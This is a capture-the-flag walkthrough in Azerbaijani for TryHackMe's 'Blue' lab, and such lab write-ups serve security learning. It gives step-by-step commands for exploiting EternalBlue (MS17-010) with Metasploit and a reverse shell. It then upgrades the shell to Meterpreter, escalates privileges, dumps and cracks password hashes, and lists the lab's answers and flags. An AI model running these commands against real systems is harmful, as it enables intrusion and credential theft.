





# Lab: Blue – TryHackMe

**Məqsəd:** EternalBlue (MS17-010) zəifliyindən istifadə edərək foothold əldə etmək, post-exploitation, hash dump və flag toplamaq.

---

## Task 1: Recon

**Machine və AttackBox-u işə sal**  
- “Start Machine” və “Start AttackBox” düymələrini bas.  
- Split-Screen view istifadə et.  

**Port Scan:**  

nmap -sV -p 1-1000 -sC -T4 <target-ip>
Cavab: Açıq portlar 1000-dən aşağı → 3

Screenshot: 

Vulnerability identification:

Cavab: ms17-010

## Task 2: Gain Access
Metasploit-i işə sal:

bash
Copy code
msfconsole
Exploit modulunu seç:

bash
Copy code
use exploit/windows/smb/ms17_010_eternalblue
Cavab: exploit/windows/smb/ms17_010_eternalblue

Əsas parametrin set edilməsi:

bash
Copy code
set RHOSTS <target-ip>
Cavab: RHOSTS

Screenshot:  

Payload təyin et:

bash
Copy code
set payload windows/x64/shell/reverse_tcp
Exploit-i işə sal:

bash
Copy code
exploit
Shell açılacaq

## Task 3: Escalate
Əvvəlki shell-i background et:

CTRL + Z

Shell to Meterpreter post-modulu:

bash
Copy code
use post/multi/manage/shell_to_meterpreter
Cavab: post/multi/manage/shell_to_meterpreter

Əsas parametrin set edilməsi:

bash
Copy code
set SESSION 1
Cavab: SESSION

Post modulunu çalışdır:

bash
Copy code
exploit
Shell meterpreter-ə çevriləcək

SYSTEM hüququnu yoxlama:

bash
Copy code
getsystem
shell
whoami
Cavab: NT AUTHORITY\SYSTEM

Process migration:

bash
Copy code
ps
migrate <PROCESS_ID>
SYSTEM hüququ ilə prosesə migrate et

## Task 4: Cracking
Password hash-ləri dump et:

bash
Copy code
hashdump
Cavab: Jon

Hash-i fayla yaz:

bash
Copy code
nano hashjon.txt
Hash-i hashjon.txt faylına yapışdır

John the Ripper ilə qır:

bash
Copy code
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashjon.txt
Cavab: alqfna22

Screenshot:  

## Task 5: Find Flags  

Flag1 – System root:

bash
Copy code
cd /
cat flag1.txt
Cavab: flag{access_the_machine}

Screenshot:  

Flag2 – Windows parol qovluğu:

bash
Copy code
cd windows/System32/config
cat flag2.txt
Cavab: flag{sam_database_elevated_access}

Screenshot:  

Flag3 – Administrator Documents (Jon qovluğu):

bash
Copy code
cd /Users/Jon/Documents
cat flag3.txt
Cavab: flag{admin_documents_can_be_valuable}

Screenshot:  

